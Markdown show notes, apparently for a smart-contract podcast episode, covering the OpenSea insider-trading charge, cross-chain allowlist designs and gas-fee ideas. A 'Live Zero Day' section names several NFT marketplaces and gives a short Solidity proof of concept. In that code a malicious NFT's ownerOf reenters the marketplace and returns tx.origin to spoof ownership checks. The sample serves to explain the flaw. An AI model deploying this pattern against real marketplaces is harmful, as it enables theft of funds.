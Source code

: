 ```yaml
---
posted: true
guid: "B08380FC-F902-47CF-9EF7-4F10CDB64671"
title: "Evil ownerOf"
subtitle: ""
description: "We talk about OpenSea insider trading charge, facts, legal analysis, allow list to your (testnet) beta testers, beer of the day, make your own bridge (simple, insecure), drops with random timing, cross chain minting by centralizing, and Evil ownerOf."
time: "2022-06-07 18:00:00 -0500"
itunes-explicit: false
itunes-episode: 27
itunes-episodeType: full
# More info
youtube-full: https://youtu.be/_RVWOU8dOM4
discussion: https://twitter.com/fulldecent/status/1534317390971998209
timeline:
  - seconds: 67
    title: OpenSea insider trading charge, facts
  - seconds: 141
    title: Legal analysis
  - seconds: 402
    title: Give allow list to your (testnet) beta testers
  - seconds: 543
    title: Beer of the day
  - seconds: 552
    title: Make your own bridge (simple, insecure)
  - seconds: 711
    title: Drops with random timing!
  - seconds: 786
    title: Cross chain minting by centralizing
  - seconds: 905
    title: Evil ownerOf
# File information
enclosure-url: "https://media.phor.net/csh/2022-06-07-episode-27.m4a"
enclosure-length: 24674153
enclosure-type: "audio/x-m4a"
itunes-duration: 1224
participants: []
---
```


<!--end of quick notes-->

- OpenSea insider trading
  - https://www.justice.gov/usao-sdny/pr/former-employee-nft-marketplace-charged-first-ever-digital-asset-insider-trading-scheme
  - https://www.bloomberg.com/opinion/articles/2022-06-02/don-t-insider-trade-nfts#xj4y7vzkg
- @037 If you wanted to do an airdrop of coins to only a set of wallets that participated on another contract in a dev chain (example: Rinkeby), is there a way to do cross-chain verification using an arbitrary block height? (example: give 10 coins from Contact "A" in Mainnet if Wallet "A" interacted with Contract "B" on Rinkeby before block height "X"). This is to promote mass beta testing to hopefully catch bugs before live deploy.…
  - Option A – Bridge
    - Use Rinkeby to make a separate contract and use a bridge to send those tokens to the other chain.
  - Option B – “get hands dirty”
    - Rinkeby allowlist contract
      - Function isAllowlisted emits logs, not a view function, in other words ONE transaction results in MULTIPLE allow list validations
    - On Mainnet validate these logs
      - Validate multiple consecutive blocks, with difficulty, using parent block and difficulty, this only works with proof of work
      - Validate specific transaction using inclusion Merkle proof
      - Validate and the transaction receipt (see [Yellow Paper BERLIN](https://ethereum.github.io/yellowpaper/paper.pdf), page 6, transaction receipt data structure) to confirm the logs were emitted
      - Optional: add a time limit to this redeemability (using block.timestamp)
  - Option C – Centralize
    - Time public time limits / redeem periods / for accountability
    - After that happens, everybody can see it and run the tool, copy this: https://github.com/su-squares/update-script and https://github.com/miguelmota/merkletreejs-nft-whitelist
- Addressing gas fees
  - Bonding curves
  - Dutch auctions
- Live Zero Day!
  - Affected marketplaces are potentially 2018 smart contracts that allow selling any NFT, and have a balance of value (not just allowlisted ones)
    - OpenSea
    - Rarebits
    - Superrare
    - Niftygateway

```solidity
// SPDX-License-Identifier: UNLICENED
pragma solidity 0.5.0;

interface NFT {
  function ownerOf(uint256) external view returns (address);
}

contract EvilNFT {
  Marketplace public marketplace;

  function setMarketplace(Marketplace marketplace_) external {
    marketplace = marketplace_;
  }

  function ownerOf(uint256) external returns (address) {
    marketplace.reprice();
    return address(tx.origin);
  }
}

contract Marketplace {
  uint256 public price = 0;

  function reprice() external {
    price++;
  }

  function doSomething(NFT nft, uint256 tokenID) external {
    // collect money from msg.sender
    require(nft.ownerOf(tokenID) == msg.sender);
    // check price
    // send money to DAO
  }
}
```

- Bankless got blocked on YouTube
  - CEO tweeted sorry!